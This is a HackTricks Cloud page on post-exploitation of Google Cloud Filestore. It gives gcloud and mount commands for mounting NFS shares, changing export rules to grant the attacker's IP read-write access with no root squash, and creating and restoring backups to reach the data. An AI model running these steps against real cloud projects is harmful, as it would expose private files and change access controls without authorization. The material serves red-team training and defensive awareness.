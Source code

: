# GCP - Filestore Post Exploitation



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Filestore

For more information about Filestore check:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Mount Filestore

A shared filesystem **might contain sensitive information** interesting from an attackers perspective. With access to the Filestore it's possible to **mount it**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

To find the IP address of a filestore insatnce check the enumeration section of the page:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Remove Restrictions and get extra permissions

If the attacker isn't in an IP address with access over the share, but you have enough permissions to modify it, it's possible to remover the restrictions or access over it. It's also possible to grant more privileges over your IP address to have admin access over the share:

```bash
gcloud filestore instances update nfstest \
    --zone=<exact-zone> \
    --flags-file=nfs.json

# Contents of nfs.json
{
  "--file-share":
  {
    "capacity": "1024",
    "name": "<share-name>",
    "nfs-export-options": [
      {
        "access-mode": "READ_WRITE",
        "ip-ranges": [
          "<your-ip-private-address>/32"
        ],
        "squash-mode": "NO_ROOT_SQUASH",
        "anon_uid": 1003,
        "anon_gid": 1003
      }
    ]
  }
}
```

### Restore a backup

If there is a backup it's possible to **restore it** in an existing or in a new instance so its **information becomes accessible:**

```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
    --zone=<zone> \
    --tier=STANDARD \
    --file-share=name=vol1,capacity=1TB \
    --network=name=default,reserved-ip-range=10.0.0.0/29
    
# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
    --zone=<zone> \
    --file-share=<instance-file-share-name> \
    --source-backup=<backup-name> \
    --source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```

### Create a backup and restore it

If you **don't have access over a share and don't want to modify it**, it's possible to **create a backup** of it and **restore** it as previously mentioned:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
    --region=<region> \
    --instance=<instance-name> \
    --instance-zone=<instance-zone> \
    --file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
